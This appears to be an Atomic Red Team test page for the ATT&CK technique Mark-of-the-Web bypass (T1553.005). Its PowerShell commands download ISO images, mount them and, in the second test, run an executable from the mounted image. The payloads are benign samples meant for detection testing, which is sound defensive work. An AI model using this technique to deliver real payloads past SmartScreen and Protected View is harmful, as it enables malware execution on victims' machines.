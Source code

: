 # T1553.005 - Mark-of-the-Web Bypass
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1553/005)
<blockquote>Adversaries may abuse specific file formats to subvert Mark-of-the-Web (MOTW) controls. In Windows, when files are downloaded from the Internet, they are tagged with a hidden NTFS Alternate Data Stream (ADS) named <code>Zone.Identifier</code> with a specific value known as the MOTW.(Citation: Microsoft Zone.Identifier 2020) Files that are tagged with MOTW are protected and cannot perform certain actions. For example, starting in MS Office 10, if a MS Office file has the MOTW, it will open in Protected View. Executables tagged with the MOTW will be processed by Windows Defender SmartScreen that compares files with an allowlist of well-known executables. If the file in not known/trusted, SmartScreen will prevent the execution and warn the user not to run it.(Citation: Beek Use of VHD Dec 2020)(Citation: Outflank MotW 2020)(Citation: Intezer Russian APT Dec 2020)

Adversaries may abuse container files such as compressed/archive (.arj, .gzip) and/or disk image (.iso, .vhd) file formats to deliver malicious payloads that may not be tagged with MOTW. Container files downloaded from the Internet will be marked with MOTW but the files within may not inherit the MOTW after the container files are extracted and/or mounted. MOTW is a NTFS feature and many container files do not support NTFS alternative data streams. After a container file is extracted and/or mounted, the files contained within them may be treated as local files on disk and run without protections.(Citation: Beek Use of VHD Dec 2020)(Citation: Outflank MotW 2020)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mount ISO image](#atomic-test-1---mount-iso-image)

- [Atomic Test #2 - Mount an ISO image and run executable from the ISO](#atomic-test-2---mount-an-iso-image-and-run-executable-from-the-iso)


<br/>

## Atomic Test #1 - Mount ISO image
Mounts ISO image downloaded from internet to evade Mark-of-the-Web. Upon successful execution, powershell will download the .iso from the Atomic Red Team repo, and mount the image. The provided sample ISO simply has a Reports shortcut file in it. Reference: https://www.microsoft.com/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/

**Supported Platforms:** Windows


**auto_generated_guid:** 002cca30-4778-4891-878a-aaffcfa502fa





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_of_iso | Path to ISO file | path | PathToAtomicsFolder&#92;T1553.005&#92;bin&#92;T1553.005.iso|


#### Attack Commands: Run with `powershell`! 


```powershell
Mount-DiskImage -ImagePath "#{path_of_iso}"
```

#### Cleanup Commands:
```powershell
Dismount-DiskImage -ImagePath "#{path_of_iso}" | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: T1553.005.iso must exist on disk at specified location (#{path_of_iso})
##### Check Prereq Commands:
```powershell
if (Test-Path #{path_of_iso}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{path_of_iso}) -ErrorAction ignore | Out-Null
Invoke-WebRequest https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1553.005/bin/T1553.005.iso -OutFile "#{path_of_iso}"
```




<br/>
<br/>

## Atomic Test #2 - Mount an ISO image and run executable from the ISO
Mounts an ISO image downloaded from internet to evade Mark-of-the-Web and run hello.exe executable from the ISO. 
Upon successful execution, powershell will download the .iso from the Atomic Red Team repo, mount the image, and run the executable from the ISO image that will open command prompt echoing "Hello, World!". 
ISO provided by:https://twitter.com/mattifestation/status/1398323532988399620 Reference:https://www.microsoft.com/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/,

**Supported Platforms:** Windows


**auto_generated_guid:** 42f22b00-0242-4afc-a61b-0da05041f9cc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_of_iso | Path to ISO file | path | PathToAtomicsFolder&#92;T1553.005&#92;bin&#92;FeelTheBurn.iso|


#### Attack Commands: Run with `powershell`! 


```powershell
$keep = Mount-DiskImage -ImagePath "#{path_of_iso}" -StorageType ISO -Access ReadOnly
$driveLetter = ($keep | Get-Volume).DriveLetter
invoke-item "$($driveLetter):\hello.exe"
```

#### Cleanup Commands:
```powershell
Dismount-DiskImage -ImagePath "#{path_of_iso}" | Out-Null
Stop-process -name "hello" -Force -ErrorAction ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: FeelTheBurn.iso must exist on disk at specified location (#{path_of_iso})
##### Check Prereq Commands:
```powershell
if (Test-Path #{path_of_iso}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{path_of_iso}) -ErrorAction ignore | Out-Null
Invoke-WebRequest https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1553.005/bin/FeelTheBurn.iso -OutFile "#{path_of_iso}"
```




<br/>
